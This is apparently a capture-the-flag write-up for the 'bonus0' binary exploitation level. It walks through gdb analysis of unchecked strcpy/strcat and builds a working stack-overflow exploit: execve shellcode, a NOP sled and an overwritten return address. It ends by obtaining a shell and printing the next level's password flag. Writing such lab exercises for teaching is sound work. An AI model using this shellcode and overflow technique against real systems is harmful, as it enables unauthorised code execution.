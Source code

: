 ### Download binary
``scp -P4242 bonus0@192.168.31.170:/home/user/bonus0/bonus0 ~/Desktop/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (see sources)

**Main function :**
char	buffer[54];
Call : pp(buffer);
Then : puts(buffer);

**PP function :**
char	first_line [20];
char	second_line [20];
Call : p function x2 (first line and second line)
Call : strcpy, without checking the size !
Try to replace '\0' by space
Call : strcat without checking the size !

**P function :**
Replace '\n' by '\0', and if there's no '\n' ?

**Tests :**
If we respect the size of the inputs (20)

``./bonus0``
> -

``AAAAAAAAAAAAAAAAAAA``
> -

``BBBBBBBBBBBBBBBBBBB``
>AAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBB

If we exceed the size of the inputs by 1 (21), we override the '\0' of arg1, so we end up with arg1 + arg2 + memory residue + arg2 + memory residue
``./bonus0``
> -

``AAAAAAAAAAAAAAAAAAAA``
> -

``BBBBBBBBBBBBBBBBBBBB``
>AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB��� BBBBBBBBBBBBBBBBBBBB���


### Finding the global buffer address

**We analyze the call to read :**
read([**file descriptor**], [**buffer pointer**], [**size max to read**])

``(gdb) disas p``
>[...]
   0x080484c3 <+15>:	call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:	movl   $0x1000,0x8(%esp)		// size 0x1000 = 4096
   0x080484d0 <+28>:	lea    -0x1008(%ebp),%eax		// calculates the address of the buffer and stores it in the %eax register
   0x080484d6 <+34>:	mov    %eax,0x4(%esp)			// then moves this address onto the stack
   0x080484da <+38>:	movl   $0x0,(%esp)				// file descriptor 0
   0x080484e1 <+45>:	call   0x8048380 <read@plt>

``(gdb) b *0x080484d6``
>Breakpoint 1 at 0x080484d6

``(gdb) run``
>Starting program: /home/user/bonus0/bonus0
>Breakpoint 1, 0x080484d6 in p ()

``(gdb) i r``
>eax            0xbfffe670	-1073748368

**0xbfffe670 -> global buffer address**

----

### Building the payload

The same shellcode as level 2 is used : https://shell-storm.org/shellcode/files/shellcode-811.html
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80


**1st input :**

NOP * 1000 (slide for shellcode) + SHELLCODE
python -c "print '\x90' * 1000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"

**2nd input**

Analyzing the behavior of memory :

- input1 -> **20 bytes**

- input2 -> **20 bytes**

- Both are concatenated into a buffer of **54 bytes**

- 20 + 20 + 1 ('/0' added by strcat) = **41 bytes filled out of 54.**

- We add **9 filling chars to reach 50**.

- We **add the address we want to point to** (somewhere in the middle of the NOPs that serve as a slide to our shellcode).
-> Address in the middle of the NOPs (buffer start 0xbfffe670 -> 500 bytes further): **0xbfffe864**

- We fill the rest of our buffer, with **7 filling characters, to correctly override the return address**

----

#### Getting the flag

``(python -c "print '\x90' * 1000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; python -c "print '\x90' * 9 + '\x64\xe8\xff\xbf' + '\x90' * 7"; cat) | ./bonus0``
> -
 -
�����������������������������d������������� ���������d�������������

``whoami``
>bonus1

``cat /home/user/bonus1/.pass``
>cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
